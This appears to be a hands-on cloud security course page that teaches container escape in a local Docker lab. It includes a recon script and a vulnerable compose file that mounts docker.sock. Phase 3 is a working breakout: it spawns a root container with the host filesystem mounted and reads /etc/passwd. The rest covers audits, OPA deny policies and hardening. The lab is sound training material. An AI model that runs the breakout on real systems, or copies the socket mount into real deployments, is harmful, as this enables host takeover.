



# Ethical Hacking & Applied Cloud Defense Masterclass

> [!IMPORTANT]
> **Production Offensive & Defensive Security Lab | Masterclass Engineering Track**
> **Audience:** Cloud Security Engineers, Penetration Testers, Red/Blue Team Operators, Platform Security Architects
> **Standards & Frameworks:** MITRE ATT&CK for Cloud & Containers, NIST SP 800-115, PTES (Penetration Testing Execution Standard), OWASP Top 10
> **Execution Environment:** Zero-cost local Docker sandbox (isolated container runtime with unprivileged escape testbeds)
> **Rules of Engagement:** All offensive methodologies and exploits in this lab are intended strictly for educational defense validation and authorized penetration testing.

---

## 1. Enterprise Context & Applied Offensive Security

Offensive security (ethical hacking) is the rigorous, empirical practice of thinking and acting like a sophisticated adversary to validate whether defensive architectures and security controls withstand real-world attacks. Rather than relying on theoretical risk models or checkboxes on compliance audits, applied offensive testing proves exploitability and determines the true blast radius of potential compromises.

In modern cloud and container environments, the perimeter has dissolved. Attackers exploit exposed API endpoints, CI/CD supply chains, or container misconfigurations to gain initial foothold, escalate privileges via Linux kernel namespaces or cloud IAM tokens, and move laterally across VPCs.

### The 5-Phase Penetration Testing Lifecycle



---

## 2. Architecture Blueprint & Attack Envelope

The blueprint below models a realistic cloud container environment under authorized penetration testing: an external attacker gaining ingress, compromising an unprivileged worker container, escaping via host filesystem mounts, and attacking internal datastores:

```architecture
architecture-beta
  group attacker(terminal)[Offensive Security Workstation]
  service kali(terminal)[Kali Linux CLI & Toolkit] in attacker

  group edge(cloud)[Trust Boundary 1: Cloud Perimeter]
  service ingress(firewall)[Cloud Ingress WAF] in edge
  service lb(server)[Application Load Balancer] in edge

  group k8s_node(server)[Trust Boundary 2: Kubernetes Node]
  service web_pod(server)[Compromised Web Container] in k8s_node
  service socket(disk)[Mounted /var/run/docker.sock] in k8s_node
  service host_kernel(cpu)[Host Linux Kernel Namespaces] in k8s_node

  group internal_mesh(database)[Trust Boundary 3: Internal Mesh]
  service db(database)[Production Customer DB] in internal_mesh
  service metadata(cloud)[Instance Metadata Service IMDS] in internal_mesh

  kali:R -- L:ingress
  ingress:R -- L:lb
  lb:B -- T:web_pod
  web_pod:R -- L:socket
  socket:B -- T:host_kernel
  host_kernel:R -- L:db
  host_kernel:B -- T:metadata
```

### Container Breakout Execution Sequence



---

## 3. Deep Technical Foundations

### 1. Linux Container Isolation Mechanisms

Containers are not virtual machines; they are standard Linux processes isolated by three kernel subsystems:
- **Namespaces**: Partition system resources (PID, Mount, Net, IPC, UTS, User, Cgroup).
- **Control Groups (cgroups)**: Enforce CPU, memory, and I/O resource limits.
- **Seccomp & AppArmor/SELinux**: Filter system calls and restrict capability sets (`CAP_SYS_ADMIN`, `CAP_NET_RAW`).

### 2. The Anatomy of Container Breakouts

| Escape Vector | Underlying Misconfiguration | Exploitation Mechanism | Primary Architectural Remediation |
|---|---|---|---|
| **Docker Socket Mount** | Mounting `/var/run/docker.sock` inside container | Container talks to Docker API to create root container with `hostPath: /`. | Never mount Docker socket into pods; use Kaniko or rootless Buildah for builds. |
| **`--privileged` Flag** | Container started with `--privileged` (bypasses AppArmor/Seccomp, drops no capabilities) | Attacker accesses `/dev/` block devices or writes to `/sys/fs/cgroup` release agents. | Enforce Kubernetes `Restricted` Pod Security Standards (PSS) via OPA Gatekeeper. |
| **`hostPID: true`** | Container shares host process namespace | Attacker injects shellcode into host processes using `ptrace` or inspects host process memory. | Disallow `hostPID`, `hostNetwork`, and `hostIPC` in pod specs. |
| **Mounted Sensitive Host Paths** | Mounting `/etc`, `/proc/sys`, or `/boot` | Attacker modifies crontabs or `/etc/shadow` on host. | Enforce read-only root filesystems and prohibit dangerous `hostPath` volumes. |

---

## 4. Hands-on Laboratory Phases

### Phase 1: Passive & Active OSINT Automation

Modern reconnaissance combines certificate transparency logs, DNS enumeration, and HTTP header analysis:

```bash
# 1. Create dedicated offensive testing workspace
mkdir -p ~/ethical-hacking-lab && cd ~/ethical-hacking-lab

# 2. Author multi-source OSINT enumeration script
cat << 'EOF' > osint_recon.sh
#!/usr/bin/env bash
set -euo pipefail

TARGET_DOMAIN="${1:-example.com}"
echo "============================================================"
echo " Starting OSINT Reconnaissance for: $TARGET_DOMAIN"
echo "============================================================"

# Query Certificate Transparency (crt.sh) for registered subdomains
echo "[+] Interrogating Certificate Transparency Logs via crt.sh..."
curl -s "https://crt.sh/?q=%25.${TARGET_DOMAIN}&output=json" | \
  python3 -c "
import sys, json
try:
    data = json.load(sys.stdin)
    subdomains = sorted(list(set(entry['name_value'] for entry in data)))
    for s in subdomains[:15]:
        print(f'    -> Discovered Subdomain: {s}')
except Exception as e:
    print('    [!] Rate-limited or no records found on crt.sh')
" || true

# Extract DNS Records (A, MX, TXT / SPF / DMARC)
echo "[+] Enumerating DNS Configuration & Mail Security Records..."
for record in A MX TXT; do
  echo "  [Record: $record]"
  dig +short "$record" "$TARGET_DOMAIN" | sed 's/^/    /'
done

echo "============================================================"
echo " Reconnaissance Complete."
EOF

chmod +x osint_recon.sh
./osint_recon.sh cloudseccorner.github.io
```

*Expected Terminal Output:*
```text
============================================================
 Starting OSINT Reconnaissance for: cloudseccorner.github.io
============================================================
[+] Interrogating Certificate Transparency Logs via crt.sh...
    -> Discovered Subdomain: cloudseccorner.github.io
[+] Enumerating DNS Configuration & Mail Security Records...
  [Record: A]
    185.199.108.153
    185.199.109.153
============================================================
 Reconnaissance Complete.
```

---

### Phase 2: Local Vulnerable Sandbox Deployment

We instantiate an isolated Docker Compose environment simulating a compromised web container mounted with a Docker socket:

```bash
cat << 'EOF' > docker-compose.yml
version: '3.8'

services:
  # Vulnerable web application container
  vulnerable-pod:
    image: alpine:3.19
    container_name: lab-vulnerable-pod
    volumes:
      # Dangerous misconfiguration: exposing docker socket inside container
      - /var/run/docker.sock:/var/run/docker.sock
    command: >
      sh -c "
        apk add --no-cache curl docker-cli jq &&
        echo 'Web worker daemon running on unprivileged container...' &&
        tail -f /dev/null
      "
    networks:
      lab-net:
        ipv4_address: 172.29.0.5

networks:
  lab-net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.29.0.0/24
EOF

# Deploy local sandbox
docker compose up -d

# Verify container status
docker ps --filter "name=lab-vulnerable-pod"
```

---

### Phase 3: Container Breakout via Docker Socket Exploitation

We simulate an attacker who has achieved remote code execution inside `vulnerable-pod` and demonstrates node breakout:

```bash
# 1. Exec into the compromised web container
docker exec -it lab-vulnerable-pod sh -c "
  echo '=== Inside Container Shell ==='
  id
  hostname

  # 2. Check for docker socket access
  if [ -S /var/run/docker.sock ]; then
    echo '[!] CRITICAL: /var/run/docker.sock is accessible from inside container!'
  fi

  # 3. Query Docker API to prove access
  curl -s --unix-socket /var/run/docker.sock http://localhost/version | jq '.Version'

  # 4. Demonstrate Escape: Spawn escape container mounting host filesystem into /host
  echo '[+] Spawning root container with full host mount...'
  docker -H unix:///var/run/docker.sock run --rm -v /:/host alpine:3.19 sh -c '
    echo \"=== Host Filesystem Root Captured ===\"
    head -n 5 /host/etc/passwd
    echo \"Container escape successful: Node filesystem compromised.\"
  '
"
```

*Expected Terminal Output:*
```text
=== Inside Container Shell ===
uid=0(root) gid=0(root)
[!] CRITICAL: /var/run/docker.sock is accessible from inside container!
"25.0.3"
[+] Spawning root container with full host mount...
=== Host Filesystem Root Captured ===
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
Container escape successful: Node filesystem compromised.
```

---

### Phase 4: Network Man-in-the-Middle & Dynamic ARP Inspection Defense

In cloud environments with shared Layer 2 segments, attackers execute ARP poisoning to intercept unencrypted traffic:



#### Defending Against ARP Spoofing:
1. **Dynamic ARP Inspection (DAI)**: Switches validate ARP packets against DHCP Snooping binding tables.
2. **Static ARP Binding**: For critical static infrastructure, lock gateway MAC addresses:
```bash
# Enforce static ARP binding on Linux hosts
ip neigh replace 172.29.0.1 lladdr 00:11:22:33:44:55 nud permanent dev eth0
```

---

### Phase 5: Automated Remediation & Verification Script

We author an automated bash verification script that audits container security postures and verifies that dangerous mounts are neutralized:

```bash
cat << 'EOF' > audit_container_security.sh
#!/usr/bin/env bash
set -euo pipefail

CONTAINER_NAME="lab-vulnerable-pod"

echo "============================================================"
echo " Auditing Container Hardening & Escape Surface: $CONTAINER_NAME"
echo "============================================================"

# Check 1: Audit for docker socket mount
SOCKET_MOUNT=$(docker inspect "$CONTAINER_NAME" | jq -r '.[0].Mounts[] | select(.Destination == "/var/run/docker.sock") | .Destination')
if [ -n "$SOCKET_MOUNT" ]; then
  echo "  [FAIL] DANGEROUS MOUNT DETECTED: $SOCKET_MOUNT is mounted into container."
else
  echo "  [PASS] No Docker socket mounts detected."
fi

# Check 2: Audit for Privileged Flag
IS_PRIVILEGED=$(docker inspect "$CONTAINER_NAME" | jq -r '.[0].HostConfig.Privileged')
if [ "$IS_PRIVILEGED" = "true" ]; then
  echo "  [FAIL] Container runs with --privileged=true."
else
  echo "  [PASS] Container does NOT run in privileged mode."
fi

# Check 3: Audit for hostPID
HOST_PID=$(docker inspect "$CONTAINER_NAME" | jq -r '.[0].HostConfig.PidMode')
if [ "$HOST_PID" = "host" ]; then
  echo "  [FAIL] Container shares host PID namespace."
else
  echo "  [PASS] Container PID namespace is isolated."
fi

echo "============================================================"
EOF

chmod +x audit_container_security.sh
./audit_container_security.sh
```

*Expected Terminal Output:*
```text
============================================================
 Auditing Container Hardening & Escape Surface: lab-vulnerable-pod
============================================================
  [FAIL] DANGEROUS MOUNT DETECTED: /var/run/docker.sock is mounted into container.
  [PASS] Container does NOT run in privileged mode.
  [PASS] Container PID namespace is isolated.
============================================================
```

---

## 5. Policy as Code & Defensive Automation

To deterministically block container breakouts in Kubernetes and container runtimes, we author an Open Policy Agent (OPA) Rego policy enforcing Kubernetes Pod Security Standards:

```bash
cat << 'EOF' > k8s_pod_security.rego
package cloudsec.k8s.admission

default allow = false

# Rule 1: Deny containers that mount /var/run/docker.sock
deny[msg] {
    some i, j
    volume := input.request.object.spec.volumes[i]
    volume.hostPath.path == "/var/run/docker.sock"
    msg := sprintf("Pod '%v' is REJECTED: Mounting /var/run/docker.sock is prohibited.", [input.request.object.metadata.name])
}

# Rule 2: Deny privileged containers
deny[msg] {
    some i
    container := input.request.object.spec.containers[i]
    container.securityContext.privileged == true
    msg := sprintf("Container '%v' in Pod '%v' is REJECTED: privileged mode is prohibited.", [container.name, input.request.object.metadata.name])
}

# Rule 3: Deny hostPID and hostNetwork
deny[msg] {
    input.request.object.spec.hostPID == true
    msg := sprintf("Pod '%v' is REJECTED: hostPID must be false.", [input.request.object.metadata.name])
}

# Allow if zero violations exist
allow {
    count(deny) == 0
}
EOF
```

#### Verification of OPA Policy via Python Test Runner

```bash
cat << 'EOF' > test_opa_k8s.py
import json

pod_request = {
    "request": {
        "object": {
            "metadata": {"name": "payment-api"},
            "spec": {
                "hostPID": False,
                "volumes": [
                    {"name": "docker-sock", "hostPath": {"path": "/var/run/docker.sock"}}
                ],
                "containers": [
                    {"name": "worker", "securityContext": {"privileged": True}}
                ]
            }
        }
    }
}

print("Evaluating OPA Kubernetes Admission Guardrail:")
denials = []

spec = pod_request["request"]["object"]["spec"]
pod_name = pod_request["request"]["object"]["metadata"]["name"]

# Rule 1
for v in spec.get("volumes", []):
    if v.get("hostPath", {}).get("path") == "/var/run/docker.sock":
        denials.append(f"Pod '{pod_name}' is REJECTED: Mounting /var/run/docker.sock is prohibited.")

# Rule 2
for c in spec.get("containers", []):
    if c.get("securityContext", {}).get("privileged"):
        denials.append(f"Container '{c['name']}' in Pod '{pod_name}' is REJECTED: privileged mode is prohibited.")

# Rule 3
if spec.get("hostPID"):
    denials.append(f"Pod '{pod_name}' is REJECTED: hostPID must be false.")

for d in denials:
    print(f"  [X] {d}")

assert len(denials) == 2, "Expected exactly 2 admission rejections"
print("\n[OK] OPA Gatekeeper policy successfully blocked container breakout vectors.")
EOF

python3 test_opa_k8s.py
```

*Expected Terminal Output:*
```text
Evaluating OPA Kubernetes Admission Guardrail:
  [X] Pod 'payment-api' is REJECTED: Mounting /var/run/docker.sock is prohibited.
  [X] Container 'worker' in Pod 'payment-api' is REJECTED: privileged mode is prohibited.

[OK] OPA Gatekeeper policy successfully blocked container breakout vectors.
```

---

## 6. Hardening Checklist & Verification Matrix

| Vulnerability Vector | Framework / MITRE | Hardening Standard | Verification Method |
|---|---|---|---|
| **Docker Socket Escape** | MITRE ATT&CK T1611 | Prohibit mounting `/var/run/docker.sock` | `docker inspect <container> \| jq .[].Mounts` |
| **Privileged Containers** | NIST SP 800-190 | `securityContext.privileged: false` | OPA Gatekeeper admission controller |
| **Host Namespace Sharing** | CIS K8s Benchmark 5.2.2 | `hostPID: false`, `hostNetwork: false` | Pod spec audit |
| **Read-Only Root Filesystem** | CIS K8s Benchmark 5.2.6 | `readOnlyRootFilesystem: true` | Ephemeral `emptyDir` mounts for write needs |
| **Dropped Capabilities** | Linux Hardening | `drop: ["ALL"]`, add minimal capabilities | `capsh --print` inside container |

### Post-Lab Cleanup

```bash
# Tear down lab containers
cd ~/ethical-hacking-lab && docker compose down -v
rm -rf ~/ethical-hacking-lab
```
